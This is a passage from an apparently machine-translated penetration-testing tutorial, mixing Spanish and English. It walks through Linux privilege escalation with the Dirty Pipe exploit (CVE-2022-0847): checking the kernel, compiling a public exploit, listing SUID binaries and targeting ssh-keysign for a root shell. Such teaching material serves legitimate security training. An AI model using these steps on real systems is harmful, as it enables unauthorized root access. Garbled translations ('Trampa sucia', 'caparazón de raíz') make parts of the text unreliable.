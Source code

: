Como paso final, enumeraremos el sistema objetivo, verificando las oportunidades de escalada de privilegios locales. Si podemos obtener acceso a nivel de raíz, habremos cumplido el objetivo principal del cliente, ya que declararon que este servidor contiene sus "joyas de corona" o datos más importantes. Durante nuestra enumeración, realizamos una búsqueda en Google basada en la versión del núcleo y vemos que probablemente sea vulnerable a la[Trampa sucia](https://www.cisa.gov/uscert/ncas/current-activity/2022/03/10/dirty-pipe-privilege-escalation-vulnerability-linux), `CVE-2022-0847`. Podemos leer una excelente explicación de esta vulnerabilidad en el[Hacke el blog de la caja](https://www.hackthebox.com/blog/Dirty-Pipe-Explained-CVE-2022-0847).

  Después de la explotación

```shell-session
ssmallsadm@MGMT01:~$ uname -a

Linux MGMT01 5.10.0-051000-generic #202012132330 SMP Sun Dec 13 23:33:36 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

Usaremos Exploit-2 de[Este repositorio de Github](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits). Dado que tenemos acceso SSH al sistema, podemos crear un archivo con`Vim`y pegar el código de exploit. Luego debemos compilarlo, y por suerte`gcc`está presente en el sistema.

  Post-Exploitation

```shell-session
ssmallsadm@MGMT01:~$ gcc dirtypipe.c -o dirtypipe
ssmallsadm@MGMT01:~$ chmod +x dirtypipe
ssmallsadm@MGMT01:~$ ./dirtypipe 

Usage: ./dirtypipe SUID
```

We must run the exploit against a SUID binary to inject and overwrite memory in a root process. So first we need to search SUID binaries on the system.

  Después de la explotación

```shell-session
ssmallsadm@MGMT01:~$ find / -perm -4000 2>/dev/null

/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/fusermount

<SNIP>
```

Finalmente, ejecutaremos la exploit contra el`/usr/lib/openssh/ssh-keysign`Suid binario y cae en un caparazón de raíz.

  Después de la explotación
